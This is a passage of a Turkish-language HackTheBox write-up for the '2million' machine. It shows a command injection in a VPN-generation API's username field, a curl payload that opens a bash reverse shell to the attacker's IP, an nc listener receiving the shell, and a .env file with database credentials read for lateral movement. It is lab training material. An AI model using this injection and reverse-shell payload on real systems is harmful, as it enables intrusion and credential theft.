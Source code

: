 ```bash
┌──(root㉿kali)-[~]
└─# curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=fko4pfbvsjj8q17rt8l47804kt' -H 'Content-Type: application/json' -d '{"username":"bilal; whoami #"}' | head
www-data
```

Tam olarak düşündüğümüz gibi sunucuda komut çalıştırabiliyoruz. Şimdi bunu sömürebiliriz.

```bash
curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=fko4pfbvsjj8q17rt8l47804kt' -H 'Content-Type: application/json' -d "{\"username\":\"bilal; bash -c \\\"bash -i >& /dev/tcp/10.10.15.3/2828 0>&1\\\" #\"}" | head
```

Komutumuzu çalıştırmadan önce **nc** ile dinlemeye alıyoruz. Çalıştırdıktan sonra ise başarılı bir şekilde shell önümüze geliyor.

```bash
┌──(root㉿kali)-[~]
└─# nc -nvlp 2828 
listening on [any] 2828 ...
connect to [10.10.15.3] from (UNKNOWN) [10.10.11.221] 34936
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 
```

İlk olarak bulunduğumuz dizinde neler olduğuna bakma oluyor.

```bash
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Apr 21 19:10 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Apr 21 19:10 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

## Yanal Hareket

`.env` dosyası dikkatimizi çekiyor ve içeriğine bakıyoruz.

{: file=".env"}
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
